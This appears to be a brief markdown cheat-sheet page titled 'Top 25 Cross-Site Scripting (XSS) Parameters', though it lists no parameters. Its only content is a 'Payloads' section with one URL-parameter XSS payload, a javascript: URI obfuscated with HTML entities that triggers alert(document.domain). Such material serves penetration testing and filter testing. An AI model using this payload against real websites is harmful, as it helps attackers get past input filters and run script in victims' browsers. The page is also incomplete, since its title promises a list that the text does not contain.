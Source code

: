 # Top 25 Cross-Site Scripting (XSS) Parameters

![](../.gitbook/assets/image.png)



1. Payloads

```html
?url=%26%2302java%26%23115cript:alert(document.domain)
```
